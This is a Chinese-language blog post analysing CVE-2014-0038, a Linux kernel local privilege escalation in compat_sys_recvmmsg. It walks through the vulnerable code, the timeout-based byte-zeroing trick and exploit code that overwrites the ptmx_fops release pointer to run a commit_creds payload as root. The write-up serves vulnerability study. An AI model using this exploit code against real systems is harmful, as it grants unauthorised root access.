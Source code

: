 +++
title = "CVE-2014-0038"
date = "2014-04-16"
tags = ["socket", "security", "networking"]
categories = ["Blog"]
+++

利用漏洞将 ``ptmx_fops`` 返回函数的高字节置零，让它指向payload。然后payload在被kernel执行，调用 ``commit_cred`` 获取root。

# Vulnerability

```c
asmlinkage long compat_sys_recvmmsg(int fd, struct compat_mmsghdr __user *mmsg, unsigned int vlen, unsigned int flags, struct compat_timespec __user *timeout)
{
  int datagrams;
  struct timespec ktspec;
  
  if (flags & MSG_CMSG_COMPAT)
    return -EINVAL;
  
  if (COMPAT_USE_64BIT_TIME)
    return __sys_recvmmsg(fd, (struct mmsghdr __user *)mmsg, vlen,
      flags | MSG_CMSG_COMPAT,
      (struct timespec *) timeout);
  ...
```
        
``timeout`` 是从userland传过来的指针，随后被直接（只做了cast ``(struct timespec *) timeout`` ）传给系统调用 ``__sys_recvmmsg`` 。

- Why ``CONFIG_X86_X32`` is mandatory?


```c
struct timespec {
  __kernel_time_t tv_sec;     /* seconds */
  long    tv_nsec;    /* nanoseconds */
};
typedef __kernel_long_t __kernel_time_t;
```

``__sys_recvmmsg`` 中有两处修改了 ``void *timeout`` .

- 读取 ``timeout``

```c
if (timeout && 
        poll_select_set_timeout(&end_time, timeout->tv_sec,
          timeout->tv_nsec))  // READ ONLY, end_time = timeout
  return -EINVAL;
```
- 更新 ``timeout``

```c
if (timeout) {
  ktime_get_ts(timeout);                         // get now
  *timeout = timespec_sub(end_time, *timeout);   // A - B
  if (timeout->tv_sec < 0) {                     // if timeout really happens
    timeout->tv_sec = timeout->tv_nsec = 0;
    break;                                     // return
  }

  /* Timeout, return less than vlen datagrams */
  if (timeout->tv_nsec == 0 && timeout->tv_sec == 0)
    break;
}
```

所以返回前将 ``timeout->tv_sec = timeout->tv_nsec = 0;``

## 清除一个字节的过程

1. 主进程 ``retval = syscall(__NR_recvmmsg, sockfd, &msgs, 1, 0, (void*)addr)``; 其中 ``addr & 0xFF == 0xFF``
2. 子进程 ``sleep(254)`` 然后 sendto
3. 因为父进程调用 ``recv`` 长达254s之后子进程才发送，所以父进程的调用 ``__NR_recvmmsg`` 会超时
4. 超时发生时，``addr`` 被写 ``0``，然后返回。

# 获取root

- 利用了 ``ptmx_fops`` 的release function指针（在non initialized (and thus writable) kernel memory中） 
- 将指针的高3字节置0，使之指向用户空间中的payload
- Open ``/dev/ptmx``, close it and enjoy.

## payload构造


```c
// code 是payload地址
code = (long)mmap((void*)(TTY_RELEASE & 0x000000fffffff000LL), PAYLOADSIZE, 7, 0x32, 0, 0);
// 0x90 技法
memset((void*)code, 0x90, PAYLOADSIZE);
code += PAYLOADSIZE - 1024;
memcpy((void*)code, &kernel_payload, 1024);

// payload 构造
#define COMMIT_CREDS        0xffffffff8108ad40LL
typedef int __attribute__((regparm(3))) (* _commit_creds)(unsigned long cred);
typedef unsigned long __attribute__((regparm(3))) (* _prepare_kernel_cred)(unsigned long cred);

kernel_payload(void* foo, void* bar)
{
    _commit_creds commit_creds = (_commit_creds)COMMIT_CREDS;
    _prepare_kernel_cred prepare_kernel_cred = (_prepare_kernel_cred)PREPARE_KERNEL_CRED;

    /* restore function pointer and following two longs */
    *((int*)(PTMX_FOPS + FOPS_RELEASE_OFFSET + 4)) = -1;
    *((long*)(PTMX_FOPS + FOPS_RELEASE_OFFSET + 8)) = 0;
    *((long*)(PTMX_FOPS + FOPS_RELEASE_OFFSET + 16)) = 0;

    /* escalate to root */
    commit_creds(prepare_kernel_cred(0));

    return -1;
}
```
    
# 疑问

1. 为什么 ``zero_out`` 只置零1个字节，而不是一个 ``long`` (16 bytes)？
